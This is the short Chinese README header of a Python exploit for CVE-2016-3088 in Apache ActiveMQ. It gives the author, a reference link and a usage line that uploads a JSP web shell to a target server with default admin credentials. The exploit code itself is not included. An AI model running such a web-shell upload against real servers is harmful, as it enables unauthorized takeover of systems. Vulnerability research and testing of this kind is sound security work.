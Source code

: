 # ActiveMQ的PUT 上传getshellExP CVE-2016-3088

# Author:CF_HB

# 时间：2016年6月8日

# 漏洞参考地址: http://zone.wooyun.org/content/27737

# exp使用例子：
# 原理参见zone里白帽子刺刺的分析，上传shell用法如下：
    python ActiveMQExP.py -url http://192.168.18.133:8161/ -user admin -pass admin -shell D://shell.jsp

代码略粗陋，欢迎测试和反馈。